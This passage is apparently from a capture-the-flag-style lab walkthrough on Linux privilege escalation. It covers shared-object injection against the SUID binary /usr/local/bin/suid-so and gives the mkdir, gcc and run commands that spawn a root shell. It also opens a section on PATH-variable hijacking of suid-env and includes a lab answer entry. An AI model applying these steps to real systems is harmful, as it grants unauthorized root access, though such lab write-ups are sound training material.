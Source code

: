 ```
cat /home/user/.config/libcalc.so
```

![image](https://user-images.githubusercontent.com/14150485/172703772-eaf837b7-4f8c-47ed-880c-28a5e3918280.png)

We can `find` the file in the `/home/user/.config/` folder and make a copy of it to another location:

```
find /home -name 'libcalc*'
```

![image](https://user-images.githubusercontent.com/14150485/172703975-126c8caf-5902-4c86-8867-ce9d684b1bc6.png)

For the purposes of this task we will stick to the instructions and create a new folder:

```
mkdir /home/user/.config 
```

Now we can proceed to create a shared object in the directory the `/usr/local/bin/suid-so` executable was looking in:

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Running it again should successfully spawn a root shell for us:

```
/usr/local/bin/suid-so
```

![image](https://user-images.githubusercontent.com/14150485/172704932-929322e5-ac72-46a4-897e-d08269beef91.png)


<br/>

#### 12.1: Read and follow along with the above.

```
No answer needed
```

<br/>
<br/>

### 13: SUID / SGID Executables - Environment Variables

The `/usr/local/bin/suid-env` executable can be exploited due to it inheriting the user's `PATH` environment variable and attempting to execute programs without specifying an absolute path.

Executing the file seems to start an `apache2httpd` web server:

```
/usr/local/bin/suid-env
```

![image](https://user-images.githubusercontent.com/14150485/172707687-d9b12874-89cf-490d-ae3a-0a8bfc838bda.png)
